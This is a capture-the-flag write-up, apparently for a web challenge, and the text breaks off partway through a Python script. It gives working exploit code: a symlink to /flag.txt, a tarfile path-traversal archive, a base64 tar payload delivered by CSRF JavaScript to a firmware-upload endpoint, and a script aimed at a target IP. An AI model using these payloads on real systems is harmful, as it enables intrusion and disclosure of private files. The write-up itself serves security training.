 Create the symbolic link to `/flag.txt`.

```bash
$ ln -s /flag.txt ./flag
```

Create the tar archive payload to write the symbolic link to `/flag.txt` to a browsable path, `/static/flag`.

```python
import tarfile


with tarfile.open("./blah.tar", "w:gz") as t:
    t.add("./flag", "../../../../../../../../../../app/application/static/flag")
    t.close()
```

CSRF payload to upload tar payload:

```javascript
// Base64-decode tar payload
let tarEncoded = "H4sICMaUhWIC/2JsYWgudGFyAO3UTW7CMBCGYa97ipzAP5M4bhdILFlyBYuGYAnaKBgpx4fAgkpVqViQSuV9ZOsb2ZZmNdZGm/kyDosmvje9egh78VNaW1bXejx3VpyoYlATOOxz7E/t1XOS12KX066ZudrLm7iqLrWUEqq6elH497Q2N1bsunFv0yrm9PlhTrOS08qst7G9c/5DCGO64O3XtN/+grEW571XhZwb6TzkCeY/t2mzvvHut3sAAAAAAAAAAAAAAADgDxwBheRoCgAoAAA=";
var binary = atob(tarEncoded);
var array = new Uint8Array(binary.length);
for( var i = 0; i < binary.length; i++ ) { array[i] = binary.charCodeAt(i) };
let tar = new Blob([array]);

// Create tar file object and form
let file = new File([tar], "blah.tar", {type: "application/octet-stream"});
let form = new FormData();
form.append("file", file);

// Submit tar upload request
fetch("http://localhost:1337/api/firmware/upload", {method: "POST", body: form}).then(response => null);
```

Python script to register an account, login, submit the CSRF payload, and read the flag.

```python
import requests


target = "138.68.150.120:31570"
csrf_payload = '''<script>
let tarEncoded = "H4sICMaUhWIC/2JsYWgudGFyAO3UTW7CMBCGYa97ipzAP5M4bhdILFlyBYuGYAnaKBgpx4fAgkpVqViQSuV9ZOsb2ZZmNdZGm/kyDosmvje9egh78VNaW1bXejx3VpyoYlATOOxz7E/t1XOS12KX066ZudrLm7iqLrWUEqq6elH497Q2N1bsunFv0yrm9PlhTrOS08qst7G9c/5DCGO64O3XtN/+grEW571XhZwb6TzkCeY/t2mzvvHut3sAAAAAAAAAAAAAAADgDxwBheRoCgAoAAA=";
var binary = atob(tarEncoded);
var array = new Uint8Array(binary.length);
for( var i = 0; i < binary.length; i++ ) { array[i] = binary.charCodeAt(i) };
let tar = new Blob([array]);
let file = new File([tar], "blah.tar", {type: "application/octet-stream"});
let form = new FormData();
form.append("file", file);
fetch("http://localhost:1337/api/firmware/upload", {method: "POST", body: form}).then(response => null);
</script>
'''.replace("\n", ' ')

# Register user
response = requests.post(
    f"http://{target}/api/register",
```